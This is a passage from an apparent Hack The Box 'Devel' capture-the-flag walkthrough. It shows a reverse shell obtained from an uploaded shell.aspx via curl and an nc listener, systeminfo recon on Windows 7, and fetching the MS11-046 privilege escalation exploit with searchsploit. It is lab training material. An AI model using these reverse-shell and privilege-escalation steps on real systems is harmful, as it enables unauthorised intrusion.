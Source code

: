```
```

And finally when the script is executed by hitting the page with `curl 10.10.10.5/shell.aspx` I get a reverse shell. (You could also visit the page in the web browser)
```
┌──(root㉿kali)-[~/htb/devel]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.5] 49161
Spawn Shell...
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

# Root

On the box doing some initial recon with `systeminfo` I identified that this is running a old version of windows 7
```
c:\windows\system32\inetsrv>systeminfo
systeminfo                                                                                                           
                                                                                                                     
Host Name:                 DEVEL                                                                                     
OS Name:                   Microsoft Windows 7 Enterprise                                                            
OS Version:                6.1.7600 N/A Build 7600                                                                   
OS Manufacturer:           Microsoft Corporation                                                                     
OS Configuration:          Standalone Workstation                                                                    
OS Build Type:             Multiprocessor Free                                                                       
Registered Owner:          babis 
[snip]
```

A google search on `windows 7 6.1 build 7600 privilege escalation` provided a [ExploitDB](https://www.exploit-db.com/exploits/40564) link to some c code that will escalate  my privileges. This vulnerability has been identified as `MS11-046`. I copied the local exploit to my working directory using `searchsploit` and then compiled it as the directions instructed.

```
┌──(root㉿kali)-[~/htb/devel]
└─# searchsploit MS11-046                
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)          | windows_x86/local/40564.c
Microsoft Windows - 'afd.sys' Local Kernel (PoC) (MS11-046)                        | windows/dos/18755.c
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                     
┌──(root㉿kali)-[~/htb/devel]
└─# searchsploit -m windows_x86/local/40564.c
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
```